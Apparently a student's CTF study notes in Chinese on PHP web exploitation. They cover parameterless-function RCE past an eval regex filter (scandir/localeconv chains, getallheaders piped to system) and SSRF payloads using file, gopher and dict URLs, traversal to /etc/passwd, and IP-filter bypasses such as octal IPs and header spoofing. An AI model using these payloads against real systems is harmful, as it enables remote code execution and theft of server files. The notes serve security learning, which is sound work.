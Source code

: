 ```yaml
---

title: 第六周学习笔记--无参数RCE
date: 2020-09-14 17:43:50
categories: 笔记
description: preg_replace 的主要功能就是限制我们传输进来的必须是纯小写字母的函数，而且不能携带参数。再来看一下：(?R)?，这个意思为递归整个匹配模式。所以正则的含义就是匹配无参数的函数，内部可以无限嵌套相同的模式（无参数函数）

---
```

# 第六周学习笔记

## 无参数RCE

```
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}else{
	show_source(__FILE__);
}
?>
```

**代码分析**

preg_replace 的主要功能就是限制我们传输进来的必须是纯小写字母的函数，而且不能携带参数。

再来看一下：(?R)?，这个意思为递归整个匹配模式。所以正则的含义就是匹配无参数的函数，内部可以无限嵌套相同的模式（无参数函数）

**所以总而言之我们要使用不传入参数的函数来进行RCE**

### 方法一

- 首先通过，读取文件目录下是否含有flag文件

```
<?php
var_dumo(scandir('.'))
?>
```

- 但由于('.')含有参数，不能通过正则匹配，所以另外构造 . 出来

```
var_dumo(scandir(pos(localeconv())));
```

- localeconv()取点，localeconv()会返回当地的金融信息的数组
- 第一个元素恒定就是 '.'  ,pos(localeconv())就可以取第一个元素
- flag文件位于最后，使用end

```
var_dumo(end(scandir(pos(localeconv()))));
```

- 再通过readfile读取

```
var_dumo(readfile(end(scandir(pos(localeconv())))));
```

最终读取成功

### 方法二

- 利用当前秒数构造 .  ，利用localtime()中第46秒

```
<?php
var_dump(chr(pos(localtime())));
?>
```

- 第46秒输出为点

### 方法三

- 在session_id中设置我们想要输入的RCE，达到传参的目的，但是第一点需要session_start()开启session会话

```
code=show_source(session_id(session_start()));
```

- 然后传入

```
PHPSESSID=flag.php
```

### 方法四

- 利用getallheaders()来获取参数RCE

```
echo(system(end(getallheaders()));
```

- 读取最后一条请求头，传入system中，通过 cat读取出



## SSRF漏洞

### 什么是 SSRF ？

- 简介：SSRF(Server-Side Request Forgery)服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞，一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

  

- 容易造成漏洞的函数


```
curl_exec()
file_get_contents()
fsockopen()
```

- 使用一些协议来读取和执行相关命令，比如


```
http://www.xxx.com/ssrf.php?url=http://127.0.0.1:22
http://www.xxx.com/ssrf.php?url=file:///etc/passwd
http://www.xxx.com/ssrf.php?url=dict://127.0.0.1:22/
http://www.xxx.com/ssrf.php?url=gopher://127.0.0.1:2233/_test
```

### 通过各种非HTTP协议：

- 如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

  (1)、GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。

   (2)、File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容


### 不存在协议头绕过

- `file_get_contents()` 在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。

```
<?php
highlight_file(__FILE__);
error_reporting(0);
if(!preg_match('/^http/is', $_GET['a'])){
      die("no hack");
   }
echo file_get_contents($_GET['a']);
?>
```

- 例如

```
http://39.107.126.173:28402/?a=httpabc://../../../../../../../../flag
```



## IP限制绕过

- 如果IP被限制，拒绝某个IP进行访问，这种情况绕过可以使用多种绕过方法。 


### 回环地址绕过

```
http://39.107.126.173:28868/?a=http://127.0.0.1/flag.php
```

### localhost代替127.0.0.1绕过

- 例如

```
http://39.107.126.173:28827/?a=http://localhost/flag.php
```

### 特殊IP绕过ip限制

- 127.0.0.1的八进制表示为017700000001

```
http://39.107.126.173:28010/?a=http://017700000001/flag.php
```

- 同时192.168.0.1这个IP地址我们可以改写成：


```
(1)、8进制格式：0300.0250.0.1

(2)、16进制格式：0xC0.0xA8.0.1

(3)、10进制整数格式：3232235521

(4)、16进制整数格式：0xC0A80001
```

- 还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1


### 双url绕过

- 由于一次get传输会进行URL解码，而SSRF同样支持URL解码，所以我们可以使用双重url编码。

```
http://39.107.126.173:28010/?a=file://f1%2561g
```

### X-Forwarded-For绕过,Cookie伪造

- 用Burp Suite抓包，添加X-Forwarded-For:127.0.0.1，将`user=0`改为`user=1`，再发送即可。